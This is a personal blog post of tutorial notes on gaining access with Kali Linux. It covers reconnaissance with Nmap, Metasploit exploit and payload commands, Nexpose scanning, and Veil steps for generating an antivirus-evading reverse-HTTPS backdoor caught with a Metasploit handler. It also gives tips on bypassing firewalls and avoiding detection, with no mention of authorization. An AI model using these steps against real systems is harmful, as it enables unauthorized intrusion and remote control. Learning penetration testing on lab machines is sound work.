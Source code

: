 Title: Gaining Access with Kali Linux
Date: 2020-05-xx
Author: Jack McKew
Category: Software
Tags: software

This post will go into ways we can use Kali Linux to hack networks and PCs! What is Kali Linux? "Kali Linux is a Debian-based Linux distribution aimed at advanced Penetration Testing and Security Auditing". Kali Linux is free to download and you can find it at: <https://www.kali.org/downloads/>.

> Thank you to Chris B for helping me with the notes in this post below!

## Gaining Access

Any electronic device is a computer all concepts will work wether it is a phone, tv, router, websites, webservers etc
Two types of attacks:

1. Server side - Doesn't require user interaction all we need is an IP
2. Client side - Requires user interaction such as opening a file or clicking a link

### Server Side Attacks

Make sure the machine is pingable (open terminal and run `ping [IP]`). Learning as much as possible about the target is essential for conducting a successful attack, if you can learn things such as:

- Operating systems
- Installed programs
- Ports being used
- etc

We can then use this information for identifying potential exploits (search engines are perfect for this). Things to look out for are:

- Run Zenmap (Nmap) on the IP. Click the ports and services tab up the top to learn about the ports being used / misconfigured.
- Google the version of operating system / programs for potential exploits
- If you find an open FTP (file transfer protocol) port, try to connect through it
- Try default usernames and passwords to log in (sometimes they won't have a password)


#### Metasploit

Metasploit is a penetration testing framework that makes hacking simple. It's an essential tool for many attackers and defenders. Point Metasploit at your target, pick an exploit, what payload to drop, and hit Enter. Before testing metasploit on a live system, it's preferential to test on a virtualised system, enter metasploitable. Metasploitable is an intentionally vulnerable target machine for evaluating Metasploit which is virtualised and can be downloaded from: <https://information.rapid7.com/download-metasploitable-2017.html>.


#### Exploiting Backdoors

First from the information you've gathered about the target, we can then search for what exploits are available, and to use metasploit is as easy as:

- `msfconsole` (runs the metasploit console)
- `help` (help on any command)
- `show [something]` (something can be exploits, payloads, auxilaries or options)
- `use [something]` (uses an exploit, payload, auxilarie)
- `set [option] [value]` (configure [option] to have [value] )
- `exploit` - runs the current task

##### An Example Backdoor Attack

Typically this will only work if the backdoor is already installed on the target computer.

1. find out the exploit to use via google
2. open `msfconsole`
3. type `use [exploit_name/path]`
4. `show options`
5. set the options (usually the RHOSTS) `set RHOSTS [ip]
6. run `exploit`

If this is successful, you will now have access to a remote terminal in the target and essentially do anything you want on the target machine.

##### Payloads

A payload is a piece of code that is to be executed through an existing exploit. For example twp types of payloads are to:

- to open a port on the target and connect to it (aka `bind`)
- open a port on the attacking computer, connect to the attacking computer from the target bypassing the firewall (aka `reverse`)

> On a `reverse`, setting the open port on the attacking computer to 80, will mimic that of a typical webserver and thus also bypassing any firewall filtration.

Setting a payload in metasploit can be done with the option `set payload [payload]`.

#### Nexpose

Nexpose is another product from the creators of metasploitable, and it is a vulnerability scanner. Nexpose will find any available exploits in your network that could be used, this could be used from a red team (attacker) and blue team (defender) perspective!

[![Nexpose]({static img/nexpose.jpg})](https://www.rapid7.com/products/nexpose/)

Nexpose can be downloaded from: <https://www.rapid7.com/products/nexpose/>.

> There is a free community edition!

### Client Side Attacks

Client side attacks are typically the next step if server side attacks fail or are not viable in the situation. Although, client side attacks can potentially be more difficult to accomplish as we are now (likely) depending on the weakest link in the security to be the human rather than a computer. In client side attacks, social engineering is one of the most used attack vectors, which also means that gaining as much information as possible about the target is critical for a successful attack.

#### Creating Backdoors

For creating backdoors we use a program called `veil`. Veil can installed via `apt-get`, and the source code is all open over at: <https://github.com/Veil-Framework/Veil>.

To use Veil: (use evasion, and use a rev_https (aka reverse https connection)):

1. Run `veil`
2. `list` to list available tools
3. `use [toolname]` to use tools, evasion is a typical tool to use
4. `list` (under a tool) to see available payloads
5. `use [payload number]`
6. check the options to set
7. be sure to set the LHOST (the IP for the target to connect to)
8. `set LHOST [ip]`
9. if you have a webserver running change to port, a good port is 8080 (an alternate port used by webservers)
10. `set LPORT 8080`
11. `options` to see options.
12. <set PROCESSERS [number(1)]> change processers.
13. <set SLEEP [number(6)]
13 <generate> to make backdoor.

- To check if it is detectable you can use the check vt command or better method:
- go to a website call no distrubute and scan there.

We need to listen for the connection.
Need the attack payload and the port (go/meterpeter/rev_https, 8080)

1. Open the metasploit framework. <msfconsole>
2. To listen use the handler moudule
3. <use exploit/multi/handler>
4. set the payload <set PAYLOAD windows/meterpeter/reverse_https>
5. set the correct settings (the LPORT and LHOST you used in the backdoor).
6. <exploit>

